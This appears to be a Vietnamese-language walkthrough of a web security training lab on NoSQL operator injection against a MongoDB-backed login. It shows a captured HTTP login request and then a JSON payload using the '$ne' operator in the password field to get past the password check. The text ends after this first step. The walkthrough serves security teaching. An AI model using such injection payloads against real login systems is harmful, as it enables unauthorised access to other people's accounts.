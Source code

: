 # **Lab: Exploiting NoSQL operator injection to extract unknown fields**

>  The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.  
To solve the lab, log in as `carlos`.  

* To solve the lab, you'll first need to exfiltrate the value of the password reset token for the user carlos.

# **Solution**

Truy cập trang đăng nhập, nhận thấy có chức năng `Forgot Password`.  

Trước tiên thử đăng nhập. Nhiệm vụ lần này là đăng nhập vào tài khoản `carlos`.

```
# request
POST /login HTTP/2
Host: 0ac1000f042318cd807f3565003a00f4.web-security-academy.net
Cookie: session=rkargxA5fpXd2uQ1s0YjDPDo2xnAaB4a
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ac1000f042318cd807f3565003a00f4.web-security-academy.net/login
Content-Type: application/json
Content-Length: 40
Origin: https://0ac1000f042318cd807f3565003a00f4.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{"username":"carlos","password":"12345"}
```

```
# response

Invalid username or password 
```

Tất nhiên là đăng nhập không thành công. Kiểm tra gói tin login vừa rồi ta thấy ứng dụng sẽ gửi thông tin đăng nhập dạng JSON bao gồm 2 cặp key-value là `username` và `password`.  
Giờ thử bypass bằng cách đơn giản đã từng dùng:

```
{"username":"carlos","password":{"$ne":""}}
```

```
Account locked: please reset your password
```
